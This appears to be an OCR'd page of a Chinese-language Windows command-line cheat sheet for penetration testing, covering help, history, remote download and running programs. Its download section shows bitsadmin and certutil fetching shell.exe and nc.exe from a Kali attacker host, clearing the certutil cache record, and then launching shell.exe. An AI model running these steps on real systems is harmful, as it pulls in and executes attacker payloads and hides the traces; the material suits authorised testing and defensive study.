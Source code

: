 # 6 使用

## 6.1 查看帮助

```cmd
C:\Users\Administrator> [command] /?
```

## 6.2 历史命令

查看历史命令

```cmd
C:\Users\Administrator> doskey /history
```

## 6.3 远程下载

**bitsadmin**

使用 bitsadmin 下载文件

```cmd
C:\Users\Administrator> bitsadmin /transfer n http://kali.local/upload/shell.exe C:\Users\Administrator\shell.exe
```

```cmd
C:\Users\Administrator> bitsadmin /rawreturn /transfer getfile http://kali.local/upload/shell.exe C:\Users\Administrator\shell.exe
```

**certutil**

使用 certutil 下载文件

```cmd
C:\Users\Administrator> certutil -urlcache -split -f http://kali.local/upload/nc.exe C:\Users\Administrator\nc.exe
```

删除 certutil 下载记录

```cmd
C:\Users\Administrator> certutil -urlcache -split -f http://kali.local/upload/nc.exe delete
```

## 6.4 程序

运行程序

```cmd
C:\Users\Administrator> start shell.exe
```

## 6.5 修改编码
